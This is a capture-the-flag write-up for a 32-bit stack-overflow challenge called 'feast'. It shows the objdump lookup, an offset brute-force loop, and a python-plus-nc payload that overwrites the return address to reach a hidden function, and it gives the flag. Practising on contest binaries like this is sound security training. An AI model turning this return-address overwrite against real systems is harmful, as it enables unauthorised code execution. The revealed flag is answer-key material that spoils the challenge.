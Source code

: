 > We've prepared a special meal for you. You just need to find it. (This is a 32 bit program) nc [pwn.red.csaw.io](http://pwn.red.csaw.io/) 5001

1. Determine what function you need to call
    - We want to call `winner_winner_chicken_dinner()`, but that isn't called anywhere in the program
    - Luckily, the `vuln()` function makes a call to `gets()`, which is vulnerable to stack overflows
2. Determine the location of the function

    ```bash
    objdump -D feast | grep winner_winner_chicken_dinner
    ```

    - This outputs:

    ```bash
    08048586 <winner_winner_chicken_dinner>:
    80485a8:	75 2a   	jne    80485d4 <winner_winner_chicken_dinner+0x4e>
    ```

    - Thus, the address of the function is at 0x08048586
3. Convert the function location into little endian
    - becomes `\x86\x85\x04\x08`
4. Determine where the overflow occurs

    ```bash
    for i in {1..64};do echo $i; python -c "print('A'*$i + '\x86\x85\x04\x08')" | ./feast; done 
    ```

    - Assuming the overflow is withing 64 bytes, this will print the flag and tell use where the overflow occurs
    - It occurs at 44 bytes
5. Get the flag

    ```bash
    python -c "print('A'*44 + '\x86\x85\x04\x08')" | nc pwn.red.csaw.io 5001 | grep "flag"
    ```

6. The flag is flag{3nj0y_7h3_d1nN3r_B16_w1Nn3r!}
